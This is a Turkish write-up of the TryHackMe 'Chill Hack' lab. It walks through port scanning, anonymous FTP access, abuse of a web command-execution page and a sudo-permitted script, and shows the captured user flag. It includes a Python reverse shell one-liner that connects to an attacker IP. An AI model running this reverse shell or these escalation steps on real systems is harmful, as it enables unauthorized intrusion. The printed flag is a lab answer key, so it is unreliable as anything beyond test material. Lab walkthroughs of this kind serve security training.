 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/chillhack">Chill Hack</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

---

Öncelikle nmap taraması başlatalım.


```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.28.212 
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-11 17:30 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 17:30
Scanning 10.10.28.212 [4 ports]
Completed Ping Scan at 17:30, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:30
Completed Parallel DNS resolution of 1 host. at 17:30, 0.00s elapsed
Initiating SYN Stealth Scan at 17:30
Scanning 10.10.28.212 (10.10.28.212) [1000 ports]
Discovered open port 22/tcp on 10.10.28.212
Discovered open port 80/tcp on 10.10.28.212
Discovered open port 21/tcp on 10.10.28.212
Completed SYN Stealth Scan at 17:30, 1.41s elapsed (1000 total ports)
Initiating Service scan at 17:30
Scanning 3 services on 10.10.28.212 (10.10.28.212)
Completed Service scan at 17:31, 6.22s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.28.212.
Initiating NSE at 17:31
Completed NSE at 17:31, 0.43s elapsed
Initiating NSE at 17:31
Completed NSE at 17:31, 0.38s elapsed
Nmap scan report for 10.10.28.212 (10.10.28.212)
Host is up (0.096s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.040KB)
```                    

ftp servisine anonymous olarak girmeyi deneyelim.

```                   
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.28.212        
Connected to 10.10.28.212.
220 (vsFTPd 3.0.3)
Name (10.10.28.212:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||10060|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||57821|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |****************************************************************|    90       58.35 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (0.94 KiB/s)
ftp> exit
221 Goodbye.
```         

note.txt dosyası buluyorum ve indirip içeriğine bakıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a1.png?raw=true)


Henüz bununla ne yapılacağından tam olarak emin değilim, o yüzden numaralandırmaya devam edelim. İki olası kullanıcı adımız var: Anurodh ve Apaar.

Web sitesini ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a2.png?raw=true)

Siteye gittiğimizde basit bir web sayfası buluyoruz.

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a3.png?raw=true)

secret sayfasını buluyorum ve araştırmak için siteye gidiyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a4.png?raw=true)

Komut çalıştırabileceğimiz bir websitesi bırak kurcalayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a5.png?raw=true)

[Revshell](https://www.revshells.com/) sitesine giderek reverse shell kodunu kopyalıyorum.

```
export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a6.png?raw=true)

Makineye giriş yapmayı başardım.

Shellimizi stabil hale getirelim.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Apaar'ın ana dizinindeki local.txt bayrağına erişmeye çalışırken erişim reddedildi. Www-data kullanıcısının ayrıcalıklarını yükseltmemiz gerekecek gibi görünüyor.

```
sudo -l
```
```
ww-data@ubuntu:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

İlginç, dosyayı cat ile açalım.

```
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash
echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
echo "Thank you for your precious time!"
```

Bu dosya ile apaar kullanıcısına geçebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a7.png?raw=true)

user bayrağını alalım.

```
apaar@ubuntu:~$ ls
ls
local.txt
apaar@ubuntu:~$ cat local.txt
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

>{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

